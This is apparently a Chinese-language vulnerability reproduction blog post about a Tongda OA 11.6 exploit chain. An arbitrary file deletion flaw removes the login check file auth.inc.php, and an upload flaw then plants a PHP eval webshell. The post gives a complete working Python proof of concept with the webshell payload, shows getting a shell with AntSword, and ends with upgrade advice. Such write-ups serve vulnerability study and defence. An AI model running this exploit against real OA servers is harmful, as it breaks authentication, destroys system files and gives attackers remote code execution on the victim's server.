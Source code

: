 ```yaml
---
title: 通达OA11.6任意文件删除+文件上传组合GetShell
categories:
  - 漏洞复现
tags:
  - 漏洞
  - 通达OA11.6
  - 漏洞复现
author: Chace
date: 


---
```


# 通达OA11.6任意文件删除+文件上传组合GetShell



## 漏洞介绍

通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。

通达OA为各行业不同规模的众多用户提供信息化管理能力，包括流程审批、行政办公、日常事务、数据统计分析、即时通讯、移动办公等，帮助广大用户降低沟通和管理成本，提升生产和决策效率。

<!--more-->

漏洞利用思路：利用任意文件删除漏洞删除认证文件然后通过文件上传写入一句话木马getshell

注意⚠️：此漏洞会删除认证的文件，然后上传shell，所以该漏洞是会破坏系统认证文件,如果成功利用后会删除程序中的php文件可能会导致程序功能无法使用。

## 影响版本

版本：通达OA 11.6

链接：`https://pan.baidu.com/s/1VqUUNUsgsssK1Mhq2r8HHQ`

提取码：him4

## 漏洞复现

### 环境搭建

靶机环境：win7系统，下载安装包全部默认配置无脑下一步安装



![](1.png)

成功访问网站登录页面如下

![](2.png)

至此确认漏洞环境搭建成功

大佬给出的poc如下：

```python
import requests
target="http://oa.test.com/"
payload="<?php eval($_REQUEST['a']);?>"
print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("[*]Deleting auth.inc.php....")

url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("[*]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[-]Failed to deleted auth.inc.php")
    exit(-1)
print("[+]Successfully deleted auth.inc.php!")
print("[*]Uploading payload...")
url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('hack.php', payload)}
requests.post(url=url,files=files)
url=target+"/_hack.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[+]Filed Uploaded Successfully")
    print("[+]URL:",url)
else:
print("[-]Failed to upload file")
```

### 漏洞分析

我们通过分析POC我们可知，首先通过任意文件删除漏洞删除`/webroot/inc/`目录中的`auth.inc.php`文件，这里利用的是目录`\webroot\module\appbuilder\assets`下`print.php`文件中的一处任意文件删除漏洞，查看代码文件，全是乱码，应该是经过加密处理，使用使用在线解密工具解密

`http://dezend.qiling.org/free.html`

解密后文件如下：

![](3.png)

可以看到，首先对` $s_tmp`进行赋值一个要删除的文件，最后通过`unlink`函数将文件删除，POC通过此漏洞删除了`/webroot/inc/`目录中的`auth.inc.php`文件，根据名字我们可以粗略判断这是一段用于权限校验的代码，我们同样使用解密工具解密`auth.inc.php`文件

![](4.png)

这个文件用于判断用户是否登录，如果未登录的话，就无法上传文件，所以需要将此文件删除，才能成功上传成功。

所以POC的漏洞利用思路如下：

首先对` $s_tmp`进行赋值，这里的`guid`为我们POC中的`../../../webroot/inc/auth.inc.php`文件，最后通过`unlink`函数将登录校验文件`auth.inc.php`删除，然后我们达到成功上传webshell的目的。

### 攻击演示

攻击会删除`auth_inc.php`文件，这里先做个备份。（注意千万不要找公网环境测试，本地自己搭建环境测试）

修改POC中的target为我们的靶机环境，执行脚本

![](5.png)

成功上传webshell文件，使用蚁剑连接

![](6.png)

成功getshell

![](7.png)

## 修复建议

以上漏洞已在官方的最新版本中修复，建议受影响的用户升级至最新版本进行防护，

官方下载链接：

https://www.tongda2000.com/download/p2019.php



## 参考链接

[通达OA11.6漏洞复现](https://mp.weixin.qq.com/s?src=11&timestamp=1597979065&ver=2535&signature=Scl7syktdMYi2FNWo8JUaFzBtLtPAXQOpqrEYohcliaITc-c-vjoz75UBzHUPe9b5-JouKJIFEw9PIW9N**t*PelOu3CRMChwfYWnaIsKKIW4bSc-Kj4RXBz1LFzkHE-&new=1)